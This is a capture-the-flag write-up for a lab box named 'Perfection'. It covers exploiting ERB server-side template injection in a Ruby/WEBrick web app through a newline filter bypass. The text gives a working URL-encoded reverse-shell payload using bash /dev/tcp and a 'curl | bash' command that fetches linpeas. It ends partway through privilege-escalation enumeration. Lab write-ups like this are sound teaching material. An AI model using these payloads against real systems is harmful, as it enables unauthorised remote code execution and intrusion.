 ![perfection Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/a1bb0cf0-7efd-454f-b4a1-553aa0f68328)

Enter any input to enumerate how the site works, just bear in mind weights must add up to 100. Capture with Burpsuite and inspect the response.

![perfection2 Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/c98ada60-2d1b-4c80-af7c-d1393c3f5270)

It seems the web site is made with WEBrick 1.7.0, which in turn relies on Ruby 3.0.2.
This is everthing we need to know to begin exploitation.
### USER
Investigating about WEBrick and Ruby I found these web sites:
- https://github.com/ruby/webrick
- https://www.honeybadger.io/blog/ruby-template-performance-erb-haml-slim

According to them, there are 3 Ruby templates: ERB, HAML and Slim, of which ERB seems to be the more common because is the one installed by default. Looking for Ruby ERB SSTI payloads I found these references:
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby<br>

Let's start with the simplest payload which seems to be `<%= 7*7 %>`. If you enter it in the `category 1` field, a "Malicious input blocked" is reported, meaning an input filter must be in place.

![perfection3 Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/fa3884a9-9828-49dc-9199-27f4f4f4d620)

Testing the application we find out it filters non-alphanumeric characters, and turns out the filter can be bypassed adding a `%0A` (newline) at the end of the payload.

![perfection4 Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/22dd1d3c-d931-4f0a-be78-9f2c21a48095)

This time the application outputs value "49", meaning the SSTI vulnerability is confirmed. Start a listener and refer to HackTricks or PayloadsAllTheThings to prepare a reverse shell payload. Remember to URL-encode it before sending.<br>
<br>
For example, this payload was confirmed to be working.
```markdown
aaa%0A<%25%3d+system("bash+-c+'bash+-i+>%26+/dev/tcp/10.10.xxx.xxx/1919+0>%261'")+%25>
```
![perfection5 Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/23fdedc3-053c-4d4b-b672-35c752936257)

A reverse shell for user `susan` is received on port 1919.

![perfection6 Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/5451400c-4838-46a8-aa31-d2591d528db2)

Which can be used to retrieve the user flag.
### ROOT
Start from the low-priv reverse shell for user `susan`. Bearing in mind this is an "easy" box, we assume `linpeas.sh` will surely help to automatically discover a flaw.<br>
<br>
Run `linpeas.sh` and inspect the results.
```markdown
curl http://10.10.xxx.xxx/linpeas.sh | bash
```
Some interesting facts are revealed. First, `cron` jobs and Ruby scripts are found in susan's home.
```markdown
╔══════════╣ Cron jobs
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs
/usr/bin/crontab
@reboot cd /home/susan/ruby_app && /usr/bin/ruby /home/susan/ruby_app/main.rb
```
Next, it seems `susan` is a sudoer.
```markdown
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users
```